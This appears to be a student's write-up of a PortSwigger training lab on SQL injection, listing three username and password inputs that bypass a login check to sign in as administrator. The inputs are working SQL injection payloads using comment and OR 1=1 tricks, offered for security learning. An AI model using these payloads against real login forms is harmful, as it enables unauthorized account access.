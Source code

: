 # Lab: SQL injection vulnerability allowing login bypass

## Lab's description

This lab contains a SQL injection vulnerability in the login function.

**End gold:** Log in as `administrator` user.

## Solution

Go to My account page and login as adminstrator

Case 1:

`Username: adminstrator`

`Password: anything' OR 1=1--'`

Case 2:

`Username: adminstrator'--`

`Password: anything`

Case 3:

`Username: adminstrator' OR 1=1--`

`Password: anything`

**Source:** [Lab: Subverting application logic](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-subverting-application-logic/sql-injection/lab-login-bypass#)
